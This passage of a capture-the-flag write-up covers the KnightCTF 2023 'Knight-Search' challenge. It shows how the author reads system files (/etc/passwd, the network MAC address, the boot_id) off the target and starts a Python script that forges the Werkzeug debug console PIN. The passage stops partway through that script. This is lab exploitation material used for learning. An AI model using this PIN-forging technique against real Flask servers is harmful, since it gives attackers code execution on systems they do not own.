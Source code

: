 According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#werkzeug-console-pin-exploit), we can calculate the PIN code:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KnightCTF-2023/images/Pasted%20image%2020230121153505.png)

Also, [this writeup](https://ctftime.org/writeup/17955) could be helpful too:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KnightCTF-2023/images/Pasted%20image%2020230121153556.png)

- username: `yooboi` (From `/etc/passwd`)
- modname: `flask.app`
- `Flask`
- The absolute path of `app.py` in the flask directory: `/usr/local/lib/python3.9/site-packages/flask/app.py`

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KnightCTF-2023/images/Pasted%20image%2020230121153953.png)

- MAC address: `02:42:ac:11:00:03` (From `/sys/class/net/eth0/address`)

Leaking network interface:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KnightCTF-2023/images/Pasted%20image%2020230121154853.png)

Found network interface: `eth0`

Leaking MAC address:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KnightCTF-2023/images/Pasted%20image%2020230121154926.png)

**Convert from hex address to decimal representation:**
```shell
┌[root♥siunam]-(~/ctf/KnightCTF-2023/Web/Knight-Search)-[2023.01.21|14:44:59(HKT)]
└> python3                  
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x0242ac110003)
2485377892355
```

- Machine ID: `e01d426f-826c-4736-9cd2-a96608b66fd8` (From `/proc/sys/kernel/random/boot_id`)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KnightCTF-2023/images/Pasted%20image%2020230121154756.png)

**Then, we can use a Python script to generate the Werkzeug console PIN:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KnightCTF-2023/images/Pasted%20image%2020230121155024.png)

```py
import hashlib
from itertools import chain
probably_public_bits = [
    'yooboi',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.9/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892355',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'e01d426f826c47369cd2a96608b66fd8'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
```